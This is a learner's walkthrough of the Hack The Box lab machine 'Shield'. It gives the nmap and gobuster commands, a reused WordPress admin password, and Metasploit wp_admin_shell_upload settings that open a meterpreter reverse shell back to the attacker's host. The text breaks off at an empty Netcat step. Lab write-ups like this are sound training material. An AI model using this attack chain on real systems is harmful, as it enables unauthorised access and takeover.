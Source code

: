 # Shield

Welcome to Another walkthrough! This walkthrough will be based on Hack the Box starting point machine "Shield". Remember all links in this walkthrough will lead you to educatonal sources to learn more about the topic I am discussing at that point in time. I will try to do my best to explain everything in detail, but keep in mind I am learning just like you are! I hope this helps you as much as it is going to help me and enjoy your journey! 
# Enumeration
Step 1: Nmap Scan
  - As always we are going to start out with our friendly nmap scan `nmap -sS -A -oN NMAP.txt 10.10.10.29`
    - This command will scan the machine and output the results to a text file "NMAP.txt"
    ![image](https://user-images.githubusercontent.com/29686845/134412007-c23344ed-3160-4531-9386-8df0a3c6ab16.png)
  - We see that two ports are open: Port 80/tcp HTTP and Port 3306/tcp mysql. 

Step 2: Port 80: HTTP
  - Lets check out port 80 the webpage.
      ![image](https://user-images.githubusercontent.com/29686845/134413396-20d418a2-ab0e-4587-8954-1b4b351b3193.png)
    - We seem to land on a [IIS](https://docs.microsoft.com/en-us/troubleshoot/iis/configure-default-document-iis)             starting page. 
      - I tried using burpsuite and checking the webpage source/storage to see if there were any subdirectories we can           gain access too or if there were any cookies we could exploit as we did in the machines Ooopsie & Vaccine.             There was no useful information there either. 
    - Eventhough this doesn't give us much information it does give us an important piece of the puzzle. We now know that       they are running windows server (Just incase you didn't pick that up from the nmap scan). In turn we might need to       run windows commands in the future.
    - Instead lets try using the tool [GoBuster](https://tools.kali.org/web-applications/gobuster).

Step 3: GoBuster
  - [GoBuster](https://tools.kali.org/web-applications/gobuster) is a tool that allows us to brute force URIs or             directories or files in webpages and to brute force DNS sub-domains. 
  - If you dont already have GoBuster installed (which I did not) Run the command `sudo apt install gobuster` 
    - Lets run the command: 
    - `gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt`
      - lets break down this command down a little bit since we are running a new tool.
      - gobuster: is the tool that we are calling to use
      - dir: is the windows equvalent to ls
      - -u: is to sepcifiy the target URL
      - -w: is to specifiy a wordlist. In this case we are going to use the common.txt.
    - Now we are going to let this run while it brute forces the password so we can get into different directories.           This may take a few minutes to complete.
      ![image](https://user-images.githubusercontent.com/29686845/134419257-79fa5f82-f03d-4b6a-900a-75b400fe5594.png)
    - We see that there is a is another directory /wordpress. so lets add that to our url. 
    - It should loook like `http://10.10.10.29/wordpress` 

# Foothold

Step 1: Word Press. 
  - The wepage seems to be a site advertising an electric truck with a smoke screen despensor and run flat tires. After exploring the page and more specifically exploring their blog we can find a link to log in. 
      ![image](https://user-images.githubusercontent.com/29686845/134676948-446c1e95-6e10-43c7-a2d0-9b0edcbabf26.png)
      ![image](https://user-images.githubusercontent.com/29686845/134677083-ba663149-978f-4dcb-9807-680cff595e87.png)
    - One thing to keep in mind is that the website is using [WordPress](https://wordpress.com/). WordPress is a a           Content Maagement system (CMS) that allows users to spin up a webpage or blog quickly and effiecently.
    - WordPress gerenally uses the username `admin` for the default credentials and since all the starting point             machines seem to follow eachother; we can try previous passwords we have from other machines to see if it works.
    - After some trial and error we find that the username and password is `admin : P@s5w0rd!`
      ![image](https://user-images.githubusercontent.com/29686845/134679391-7eb7bbdb-d230-47ca-a716-360fcead5bcd.png)
    - Now that we have access to the admin page we can look around, but it doesn't seem like we will have much access         to anything useful. 
    - I did some Research on [exploiting WordPress](https://hackertarget.com/attacking-wordpress) and it seems we can         exploit it with Metasploit's [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/)

Step 2: msfconsole
  - Metasploits [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/) is an all in one tool     that provides many different resources for enumertion, exploitation, and much more.
  - based on the exploit that I reviewed which used one of the tools in `exploit/unix/webapp` so i decided I would look     there to see if anyhting of interest. 
    - we can use the command: `search exploit/unix/webapp/wp` to see what options that Metasploit has to offer.
    - The first option we can see is `wp_admin_shell_upload` whcih catches my eye.
      ![image](https://user-images.githubusercontent.com/29686845/134682886-bcee6fc3-69ec-4c87-a47f-0cae241ad3dc.png) 
    - Metasploit offers a a few options that we can use to call this command from our search command: `use 0` or we can       call the whole tool and path with: `use /exploit/unix/webapp/wp_admin_shell_upload`
      - You can only use the `use 0` command after you have done a seaerch. your calling the number of results from our         search, so if you wanted to use a different exploit you would call that numver instead.
  - Now we are going to set some optoins before we run our exploit. This will tell msfconsole the who/what/when/where       to attack with our exploit.
    - `set USERNAME admin`
    - `set PASSWORD P@s5w0rd!`
    - `set TARGETURI /wordpress
    - `set RHOSTS 10.10.10.29`
    - `set LHOST < to your tun0 IP address >` (Forgot this and realized when it wasn't wokring)
      ![image](https://user-images.githubusercontent.com/29686845/134686497-8936a54b-69f9-4fcd-b98b-b7c4f8f300c4.png)
    - We have all of our peramaters set now lets run the exploit. we can type `use` or `exploit` <-- the funniest one         of the two. 
      ![image](https://user-images.githubusercontent.com/29686845/134688488-b5465433-988a-429f-966f-d0d8d2ce9f40.png)
    - Now we have our meterpreter connection and we can get a shell by typing `shell` 
      - shell can be a little finicky at times so we can work with it or we can upgrade our shell with netcat to               provide us with more stable shell.

Step 3: Netcat

  - 
